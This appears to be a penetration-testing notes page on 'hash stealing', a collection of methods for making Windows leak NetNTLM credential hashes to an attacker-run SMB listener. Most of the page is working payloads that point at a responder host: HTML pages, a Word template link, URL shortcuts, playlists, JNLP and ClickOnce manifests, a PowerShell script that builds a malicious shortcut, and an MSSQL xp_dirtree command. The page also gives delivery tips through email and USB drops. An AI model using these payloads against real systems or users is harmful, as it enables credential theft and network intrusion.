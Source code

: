 ```yaml
---
title: "Hash stealing"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
---
```


## Internet Explorer & Edge

While the `dir` command can be used to leak hashes, it is not very convenient method for an attacker. A more likely scenario would be if the attacker entices the victim to visit the attacker's website or open a specially crafted file. As is widely known, Internet Explorer can leak NetNTLM hashes to websites containing embedded content (eg, images, stylesheets) loaded from a UNC path. This also applies to Microsoft Edge, which can be abused in the same way. This can be tested using the following HTML:

**_[leak.htm](https://www.datocms-assets.com/21957/1592981084-leak.htm):_**

```html
<!DOCTYPE html>
<html>
	<img src="file://<responder ip>/leak/leak.png"/>
</html>
```

## Office

Another well-known attack is by abusing Office. Office documents can contain links to external content that when pointed to a network share can result in disclosing NetNTLM hashes. For example, a Word document can contain a link to a template file located on a share. The template file can be set via the `word\_rels\settings.xml.rels` file located in the `DOCX` file.

_**[word_rels\settings.xml.rels](https://www.datocms-assets.com/21957/1592981117-leak.docx):**_

```html
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
	<Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="file://<responder ip>/leak/Template.dotx" TargetMode="External"/>
</Relationships>
```

![](https://www.datocms-assets.com/21957/1592477905-wordntlmleaktemplate.png) 
_Figure 2: leak NetNTLM hashes using Word_

It should be noted that this particular trick doesn't work if the Word document is opened in Protected View. This is normally the case if the document is opened from a website or opened from an email message.

## Living off the land

If no mitigations have been applied, it is not very hard to trick Windows to leak hashes. Essentially any document format that allows loading of external files from UNC paths should be affected by this flaw. To get an idea how easy it is to find such methods, a number of them are listed below. This is by far an exhaustive list, it just demonstrates how prevalent this issue is. Of course an attacker still needs to entice the user into performing a certain action.

## URL handlers

Besides abusing files there are other ways to force applications to open files from (rogue) network shares. One such way is with the use of URL handlers. A large number of applications register custom URL schemes. For example, Word registers the `ms-word` URL scheme. This scheme accepts a path that can be used to cause Word to try to open a file from a UNC path. Consequently, the `ms-word` URL scheme can be used to steal NetNTLM hashes. Other URL handlers can be abused in a similar manner.

```html
<!DOCTYPE html>
<html>
	<script>
		location.href = 'ms-word:ofe|u|\\<responder ip>\leak\leak.docx';
	</script>
</html>
```

## Internet Shortcut

Another trick is to just create a shortcut to the rogue share. Windows has a special `URL` file type that is used to create shortcuts to webpages. A simple version looks something like this:

**_[leak.url](https://www.datocms-assets.com/21957/1592981144-leak.url):_**

```
[InternetShortcut]
URL=file://<responder ip>/leak/leak.html
```

It is possible to assign an icon to this shortcut. When Windows Explorer encounters a URL file it will automatically parse it to see if there is an icon associated to the shortcut. Setting the icon to an UNC path will cause Windows Explorer to try and load it, again leaking hashes. This happens when the user just browses to the folder containing the URL file. So if an attacker managers to drop a URL file in the user's download folder, hashes are leaked every time the user views the download folder in Explorer. Similar attacks are possible using other shortcut type of file formats, which is also useful with USB drops.

**_leak2.url:_**

```
[InternetShortcut]
URL=https://securify.nl
IconIndex=0
IconFile=\\<responder ip>\leak\leak.ico
```

## Windows Media Player

Media players tend to support many audio and video file formats and playlists. Playlists can be seen as a collection of links to external files, including files located on network shares. Naturally this can be abused to steal NetNTLM hashes. Windows Media Player is no exception, opening a specially crafted playlist in Windows Media Player can potentially disclose hashes to an attacker.

_**[leak.m3u](https://www.datocms-assets.com/21957/1592981177-leak.m3u):**_

```
#EXTM3U
#EXTINF:1337, Leak
\\<responder ip>\leak.mp3
```

_**[leak.asx](https://www.datocms-assets.com/21957/1592981202-leak.asx):**_

```html
<asx version="3.0">
	<title>Leak</title>
	<entry>
		<title></title>
		<ref href="file://<responder ip>/leak/leak.wma"/>
	</entry>
</asx>
```

_**[leak.wax]:**

```sh
https://10.8.3.12/test
file://\\10.8.3.12/steal/file
```
## Java Web Start

Many enterprise still use Java applications. There is a good chance that they also have Java Web Start enabled. Java Web Start allows users to start Java applications from the internet using a browser. A Java Web Start application is launched by opening a JNLP file. JNLP files are XML files that define how the application should be started. It also contains links to one or more JAR files. These JAR files could be located on network shares thus are a good target for leaking hashes.

_**[leak.jnlp](https://www.datocms-assets.com/21957/1592981769-leak.jnlp):**_

```html
<?xml version="1.0" encoding="UTF-8"?>
<jnlp spec="1.0+" codebase="" href="">
	<resources>
		<jar href="file://<responder ip>/leak/leak.jar"/>
	</resources>
	<application-desc/>
</jnlp>
```

It should be noted that while JNLP files can be opened from a browser they are block by Microsoft Outlook on Windows. JNLP files are allowed on Outlook for macOS though.

![](https://www.datocms-assets.com/21957/1592477933-outlookblocksjnlp.png) _Figure 3: JNLP files are blocked in Outlook_

## ClickOnce

.NET's counterpart to Java Web Start is named ClickOnce. It works in a similar manner, applications are started via a ClickOnce deployment manifest file. These files can also contain UNC paths, similar to Java Web Start. Remarkably, ClickOnce deployment manifests are not blocked by Outlook.

![](https://www.datocms-assets.com/21957/1592477936-outlookclickonceallowed.png) _Figure 4: ClickOnce deployment manifest files are not blocked in Outlook_

_**[leak.application](https://www.datocms-assets.com/21957/1592982308-leak.application):**_

```html
<?xml version="1.0" encoding="utf-8"?>
<asmv1:assembly xsi:schemaLocation="urn:schemas-microsoft-com:asm.v1 assembly.adaptive.xsd" manifestVersion="1.0" xmlns:dsig="http://www.w3.org/2000/09/xmldsig#" xmlns="urn:schemas-microsoft-com:asm.v2" xmlns:asmv1="urn:schemas-microsoft-com:asm.v1" xmlns:asmv2="urn:schemas-microsoft-com:asm.v2" xmlns:xrml="urn:mpeg:mpeg21:2003:01-REL-R-NS" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
	<assemblyIdentity name="Leak.app" version="1.0.0.0" publicKeyToken="0000000000000000" language="neutral" processorArchitecture="x86" xmlns="urn:schemas-microsoft-com:asm.v1" />
	<description asmv2:publisher="Leak" asmv2:product="Leak" asmv2:supportUrl="" xmlns="urn:schemas-microsoft-com:asm.v1" />
	<deployment install="false" mapFileExtensions="true" trustURLParameters="true" />
	<dependency>
		<dependentAssembly dependencyType="install" codebase="file://<responder ip>/leak/Leak.exe.manifest" size="32909">
			<assemblyIdentity name="Leak.exe" version="1.0.0.0" publicKeyToken="0000000000000000" language="neutral" processorArchitecture="x86" type="win32" />
			<hash>
				<dsig:Transforms>
					<dsig:Transform Algorithm="urn:schemas-microsoft-com:HashTransforms.Identity" />
				</dsig:Transforms>
				<dsig:DigestMethod Algorithm="http://www.w3.org/2000/09/xmldsig#sha1" />
				<dsig:DigestValue>ESZ11736AFIJnp6lKpFYCgjw4dU=</dsig:DigestValue>
			</hash>
		</dependentAssembly>
	</dependency>
</asmv1:assembly>
```

_**[Malicious ink (SMB)]:**
- Create a malicious that connect to our responder .
```sh
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\Malicious.lnk")
$lnk.TargetPath = "\\10.8.3.12\@threat.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the dir this file lives in will perform an authentication request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

_**[MSSQL]:**
```sh
EXEC master.sys.xp_dirtree '\\10.8.3.12\myshare',1,1
smbserver.py -smb2support share .
```

- Tool :
https://github.com/Greenwolf/ntlm_theft